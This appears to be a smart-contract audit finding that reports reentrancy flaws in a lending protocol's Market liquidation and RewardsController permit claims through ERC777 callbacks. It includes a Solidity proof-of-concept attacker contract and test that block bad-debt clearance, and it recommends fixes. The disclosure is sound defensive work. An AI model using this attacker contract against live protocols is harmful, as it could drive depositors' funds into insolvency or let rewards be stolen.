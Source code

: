 Warm Cinnabar Lion

high

# `ERC777` tokens may be used to create bad debt for the protocol or steal unsigned earnings

## Summary

`Market::liquidate()` seizes the assets from the liquidatee to the liquidator before clearing the bad debt of the liquidatee, allowing the liquidator to do a 1 wei deposit to the liquidatee and prevent bad debt clearance. Also, attackers may have asigned permit of certain rewrads, but use it to steal all rewards

## Vulnerability Detail

`Market::liquidate()` calls `Market::size()` if the seize market is not `this`, else it calls `Market::internalSeize()`. There, the shares of the liquidatee are burned and the assets transferred to the liquidator. Thus, if the token implements a callback, such as `ERC777` tokens, the liquidator acquires control of the flow. Due to the fact that `Market::liquidate()` only clears the bad debt after seizing the collateral to the liquidator, it may deposit 1 wei to the liquidatee, which will stop bad debt from being cleared. This is profitable for the protocol depositors as bad debt would be cleared through reducing the earnings accumulator, but could lead to insolvency in the long term if debt grows unbounded.

Another attacker vector is exploiting the fact that `_claimSender` in `RewardsController` is stored as `permit.owner` in the `permitSender` modifier. When calling `claim()` with the permit, `_claimSender == permit.owner`, and when transferring the `permit.assets` rewards, the attacker gains control and may call the function `claim()` that has the `claimSender` modifier, and steal all rewards, not only the signed ones. This works because `claimSender()` only modifies `_claimSender` if it is not set, `if (_claimSender == address(0)) _claimSender = msg.sender;`, meant to be compatible with `claimPermit`, but makes it vulnerable to reentrancy.

The documentation does not mention that `ERC777` are not supported, only that fee on transfer tokens are not. Thus, it is safe to assume that the protocol may whitelist an `ERC777` token, being in scope.

The following POC demonstrates how an `ERC777` token may be used to never clean bad debt. Add the following code to `Market.t.sol`. The test must be run with the `--rpc-url` flag on, as it interacts with the `IERC1820Registry`.
```solidity
contract LiquidatorContract {
  address private _target;
  IERC1820Registry private _erc1820 = IERC1820Registry(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24);
  bytes32 constant private TOKENS_RECIPIENT_INTERFACE_HASH = keccak256("ERC777TokensRecipient");

  constructor(Market market) public {
    market.asset().approve(address(market), type(uint256).max);
    _erc1820.setInterfaceImplementer(address(this), TOKENS_RECIPIENT_INTERFACE_HASH, address(this));
  }

  function liquidate(Market market, address target) public {
    _target = target;
    market.liquidate(target, type(uint256).max, market);
  }

  function tokensReceived(
      address operator,
      address from,
      address to,
      uint256 amount,
      bytes calldata userData,
      bytes calldata operatorData
  ) external {
      Market(from).deposit(10, _target);
  }
}

function test_POC_badDebt_dueTo_ERC777Rentrancy() public {
  ERC20 erc777token = ERC20(address(new ERC777("token", "tk", new address[](0))));

  Market marketERC777 = Market(address(new ERC1967Proxy(address(new Market(erc777token, auditor)), "")));
  marketERC777.initialize(
    "ERC777", 3, 1e18, InterestRateModel(address(irm)), 0.02e18 / uint256(1 days), 1e17, 0, 0.0046e18, 0.42e18
  );
  auditor.enableMarket(marketERC777, daiPriceFeed, 0.9e18);

  uint256 assets = 10_000 ether;
  deal(address(erc777token), ALICE, assets);
  vm.startPrank(ALICE);
  erc777token.approve(address(marketERC777), type(uint256).max);
  marketERC777.deposit(assets, ALICE);
  marketERC777.borrow(assets*9*9/10/10, ALICE, ALICE);
  vm.stopPrank();

  // BOB deposits to get fees from alice borrow
  deal(address(erc777token), BOB, 110_000 ether);
  vm.startPrank(BOB);
  erc777token.approve(address(marketERC777), type(uint256).max);
  marketERC777.deposit(100_000 ether, BOB);

  skip(10000 days); // debt must be greater than collateral

  // BOB deposits to prove this POC, or 
  // alice will get some collateral from lenders incentive    
  marketERC777.deposit(assets, BOB);
  vm.stopPrank();

  (uint256 collateral, uint256 debt) = marketERC777.accountSnapshot(ALICE);
  assertGt(debt, collateral);

  LiquidatorContract liquidatorContract = new LiquidatorContract(marketERC777);
  deal(address(erc777token), address(liquidatorContract), assets);
  liquidatorContract.liquidate(marketERC777, ALICE);

  (collateral, debt) = marketERC777.accountSnapshot(ALICE);
  assertEq(collateral, 9);
}
```

## Impact

Short term depositors profit from this exploit but long term the protocol will likely become insolvent. 
`RewardsController` permit users may steal rewards that were not signed.

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L601-L604
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L611
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L693

## Tool used

Manual Review

Vscode

## Recommendation

In the `Market`, transfer the collateral to the liquidator only at the end of the liquidation, following the check effects interaction pattern. Optionally include `nonReentrant` modifiers.

In the `RewardsController`, when deleting `_claimSender` in the `claimSender` and `claimPermit` modifiers, revert if it was already `0`. This way, reentrancy will be impossible, as the inner call would clear `_claimSender`.